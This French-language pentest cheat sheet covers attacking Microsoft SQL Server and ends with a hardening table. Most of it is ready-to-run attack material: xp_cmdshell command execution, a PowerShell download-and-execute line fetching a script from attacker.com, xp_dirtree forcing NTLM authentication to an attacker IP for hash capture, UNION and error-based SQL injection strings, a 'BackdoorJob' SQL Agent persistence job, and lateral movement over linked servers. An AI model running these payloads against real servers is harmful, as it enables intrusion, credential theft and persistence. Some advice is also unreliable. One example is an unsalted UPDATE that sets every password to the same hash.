

## Authentification SQL

L'utilisation de l'authentification SQL au lieu de l'authentification Windows intégrée à Active Directory expose le service à des attaques de force brute sur le compte **sa**.

### Test d'authentification sans mot de passe

```bash
nmap -p 1433 --script=ms-sql-empty-password target.com
```

> [!note]
> La désactivation ou le renommage du compte **sa** ainsi que la restriction à l'authentification Windows sont les mesures de durcissement recommandées.

## Permissions Sysadmin

Un utilisateur possédant le rôle **sysadmin** dispose de privilèges complets sur l'instance SQL et, par extension, sur le système d'exploitation hôte via **xp_cmdshell**.

### Vérification des privilèges

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```

> [!danger] Attention : xp_cmdshell nécessite des droits sysadmin pour être activé.

### Exécution de commandes système

```sql
EXEC xp_cmdshell 'whoami';
```

> [!danger] Danger : L'exécution de commandes via xp_cmdshell s'exécute avec le compte de service MSSQL (souvent NT SERVICE\MSSQLSERVER).

## Fonction xp_cmdshell

Cette procédure stockée permet l'exécution de commandes système directement depuis le moteur SQL.

### Vérification de l'état

```sql
EXEC sp_configure 'xp_cmdshell';
```

### Exécution de payload distant

```sql
EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(''http://attacker.com/shell.ps1'')"';
```

## Récupération de hashs via SMB Relay (xp_dirtree / UNC path injection)

Si le compte de service MSSQL possède des droits réseau, il est possible de forcer le serveur à s'authentifier vers une machine contrôlée par l'attaquant via un chemin UNC.

### Capture de hash NTLM

```sql
-- Utilisation de xp_dirtree pour forcer une requête SMB
EXEC master..xp_dirtree '\\<ATTACKER_IP>\share\test';
```

L'attaquant doit écouter avec **Responder** ou **Impacket ntlmrelayx.py** pour capturer le hash NetNTLMv2. Voir note **MSSQL Enumeration**.

## Extraction de données via SQL Injection (UNION-based, Error-based)

Lorsque l'application frontale est vulnérable, l'extraction de données peut être automatisée.

### UNION-based
```sql
' UNION SELECT NULL, username, password, NULL FROM users--
```

### Error-based (pour extraire la version ou le nom de la base)
```sql
' AND 1=(SELECT TOP 1 CAST(@@version AS int))--
```

Voir note **SQL Injection Fundamentals**.

## Utilisation d'outils d'automatisation (Impacket mssqlclient.py, PowerUpSQL)

L'automatisation permet de gagner en efficacité lors de la phase d'énumération et d'exploitation.

### Impacket mssqlclient.py
```bash
python3 mssqlclient.py DOMAIN/user:password@<TARGET_IP> -windows-auth
```

### PowerUpSQL
```powershell
# Énumération des serveurs liés
Get-SQLServerLink -Instance <TARGET_IP>

# Audit de configuration
Invoke-SQLAudit -Instance <TARGET_IP>
```

> [!tip] Tip : Utiliser **PowerUpSQL** pour automatiser l'énumération des serveurs liés et des configurations faibles.

## Persistance via SQL Agent Jobs

Le service SQL Server Agent permet de créer des tâches planifiées s'exécutant avec les privilèges du service SQL.

### Création d'une tâche de persistance
```sql
USE msdb;
EXEC sp_add_job @job_name = 'BackdoorJob';
EXEC sp_add_jobstep @job_name = 'BackdoorJob', @step_name = 'ExecutePayload', @subsystem = 'CMDEXEC', @command = 'powershell.exe -e <BASE64_PAYLOAD>';
EXEC sp_add_jobserver @job_name = 'BackdoorJob';
EXEC sp_start_job @job_name = 'BackdoorJob';
```

## Linked Servers

Les serveurs liés permettent d'exécuter des requêtes sur des instances distantes. Cette configuration peut être utilisée pour le mouvement latéral (**Lateral Movement via Linked Servers**).

### Énumération des serveurs liés

```sql
EXEC sp_linkedservers;
```

### Exécution de commandes sur un serveur distant

```sql
EXEC ('EXEC xp_cmdshell ''whoami''') AT server2;
```

## Mots de passe en clair

Le stockage de credentials en clair dans les tables utilisateur constitue une faille critique lors d'un audit de base de données.

### Recherche de données sensibles

```sql
SELECT * FROM users WHERE password IS NOT NULL;
```

### Hachage sécurisé

```sql
UPDATE users SET password = HASHBYTES('SHA2_256', 'motdepasse');
```

## Sauvegardes SQL

Les fichiers de sauvegarde (.bak) contiennent souvent l'intégralité des données de l'instance et doivent être protégés par des permissions NTFS strictes.

### Énumération des sauvegardes

```sql
EXEC xp_cmdshell 'dir C:\SQLBackups\*.bak';
```

### Téléchargement de fichiers

```sql
EXEC xp_cmdshell 'powershell Invoke-WebRequest -Uri http://attacker.com/payload.bak -OutFile C:\SQLBackups\leak.bak';
```

> [!warning] Critique : Toujours vérifier les permissions NTFS sur les dossiers de sauvegarde.

## Synthèse des configurations

| Vulnérabilité | Solution |
| :--- | :--- |
| Authentification SQL Active | Désactiver le compte **sa**, forcer l'authentification Windows |
| Sysadmin excessif | Restreindre l'accès au rôle **sysadmin** |
| **xp_cmdshell** activé | `EXEC sp_configure 'xp_cmdshell', 0; RECONFIGURE;` |
| Linked Servers non sécurisés | Supprimer les connexions inutiles avec `sp_dropserver` |
| Mots de passe en clair | Utiliser `HASHBYTES('SHA2_256', 'motdepasse')` |
| Sauvegardes accessibles | Protéger les fichiers `.bak` avec NTFS & chiffrement TDE |

Ces vecteurs d'attaque s'inscrivent dans le cadre d'une escalade de privilèges (**Windows Privilege Escalation**) ou d'une compromission initiale via **SQL Injection Fundamentals**. L'utilisation d'outils comme **Impacket mssqlclient.py** ou **PowerUpSQL** est recommandée pour approfondir ces tests.